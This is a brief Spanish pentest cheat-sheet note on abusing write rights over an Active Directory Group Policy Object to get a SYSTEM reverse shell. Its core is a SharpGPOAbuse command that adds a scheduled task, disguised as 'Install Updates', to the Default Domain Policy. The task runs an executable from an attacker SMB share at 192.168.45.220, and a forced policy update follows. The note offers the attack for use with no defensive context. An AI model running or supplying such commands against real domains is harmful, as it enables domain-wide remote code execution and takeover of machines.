 # Info

Si tenemos permisos de GenericAll o GenericWrite sobre una GPO, podemos conseguir una reverseshell como System en una computadora:


    .\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\192.168.45.220\CompData\msiexec.exe" --GPOName "Default Domain Policy"

Luego:

    gpupdate /force

